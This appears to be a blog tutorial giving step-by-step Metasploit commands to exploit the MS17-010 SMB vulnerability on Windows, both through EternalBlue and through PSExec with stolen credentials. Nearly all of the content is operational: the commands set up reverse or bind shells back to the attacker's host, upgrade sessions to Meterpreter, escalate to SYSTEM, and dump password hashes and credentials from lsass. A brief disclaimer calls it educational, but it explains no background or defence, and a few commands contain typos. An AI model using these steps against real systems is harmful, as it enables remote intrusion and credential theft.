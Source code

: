 ```yaml
---
title: "Remote Exploit MS17-010"
date: "2021-03-27"
description: "This article serves as a quick reference to exploiting the MS17-010 with the Metasploit Framework. This article is for educational purposes only."
coverimage: Remote_Exploit_MS17010.jpg
tags: kali-linux, metasploit, ms17-010, windows
published: true
---
```

This article demonstrates how to exploit the MS17-010 vulnerability with the `Metasploit Framework`. This article is for educational purposes only.

Two methods are demonstrated; `with` and `without compromised credentials`. This article does not discuss the vulnerability and its background.

# Method 1 - MS17-010 exploitation without credentials: EternalBlue

<h5 class="step">Step 1 - Launch Metasploit and choose the `ms17_010_eternalblue` exploit</h5>

```
msfconole
[...]
use exploit/windows/smb/ms17_010_eternalblue
```

<h5 class="step">Step 2 - Configure options for your target</h5>

Configure your exploit to run with options that are specific to your target. Note that setting the remote port is optional, this is 445 by default

```
show targets
set TARGET <id>
set RHOST <target IP>
set RPORT <target port> (445 by default)
```

<h5 class="step">Step 3 - Configure options for your machine</h5>

Configure options for your machine with. 

```
set LHOST <your IP>
set LPORT <port of your choice>
```

<h5 class="step">Step 4 - Optional: Configure a payload</h5>

This step is optional. By default, `windows/x64/meterpreter/reverse_tcp` is used.

```
show PAYLOADS
```

Choose and set a payload with:

```
set PAYLOAD <payload>
```

<h5 class="step">Step 5 - Exploit</h5>

To run the exploit use:

```
exploit
```

A reverse connection is initiated upon successful exploitation.

For `post-exploitation tips`, see step 6 of the below instructions.

# MS17-010 Exploitation - With credentials: PSExec

This example requires credentials to run. This example is done using a domain-joined target.

<h5 class="step">Step 1 - Launch Metasploit and choose the `ms17_010_psexec` exploit</h5>

```
msfconole
[...]
use exploit/windows/smb/ms17_010_psexec
```

<h5 class="step">Step 2 - Configure options for your target</h5>

Configure your exploit to run with options that are specific to your target. Note that setting the remote port is optional, this is 445 by default

```
show TARGETS
set TARGET <id>
set RHOST <target IP>
set RPORT <target port> (445 by default)
set SMBUSER <user>
set SMBPASS <password>
set SMBDOMAIN <domain>
```

<h5 class="step">Step 3 - Configure options for your machine</h5>

```
set LHOST <your IP>
set LPORT <port of your choice>
```

<h5 class="step">Step 4 - Optional: Configure a payload</h5>

This step is optional. By default, `windows/x64/meterpreter/reverse_tcp` is used.

```
show PAYLOADS
```

Choose and set a payload with:

```
set PAYLOAD <payload>
```

For example, to use a smaller `bind` payload (`stageless`), you can choose:

```
set PAYLOAD generic/shell_bind_tcp
```

<h5 class="step">Step 5 - Exploit</h5>

To run the exploit use:

```
exploit
```

<h5 class="step">Step 6 - Optional: Post-Exploitation</h5>

If you used a non-meterpreter payload, you can upgrade it to Meterpreter using:

```
CTRL + Z (background session)
use post/multi/manage/shell_to_meterpreter
sessions -l
set session <session id>
set LHOST <your IP>
set LPORT <port of your choice>
exploit
```

<b>Note:</b> You may need to run this a few times to upgrade the shell.

Once you have upgraded your shell, you can escalate your privileges.

```
session -i <meterpreter session>
getsystem
```

To migrate process and dump credentials, use:

```
ps
migrate -N lsass.exe
hashdump
load kiwi
creds_all
```